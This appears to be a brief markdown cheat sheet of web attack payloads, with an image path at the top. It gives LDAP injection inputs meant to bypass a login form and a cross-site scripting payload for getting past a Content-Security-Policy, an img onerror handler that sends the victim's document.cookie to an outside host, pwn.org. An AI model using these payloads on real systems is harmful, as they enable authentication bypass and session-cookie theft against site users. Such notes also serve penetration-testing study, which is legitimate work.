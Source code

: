 
# LDAP Injection

[ldap_injection](https://wiki.zenk-security.com/doku.php?id=failles_web:ldap_injection)

username: *))%00
password: whatever

username: *
password: *)(&

# Bypass Content-Security-Policy

using inline script tag : `<script>/*some stuff*/</script>`
if its blocked we can just use : `<img src onerror="location.href='//pwn.org/index.php?content='.concat(document.cookie);">`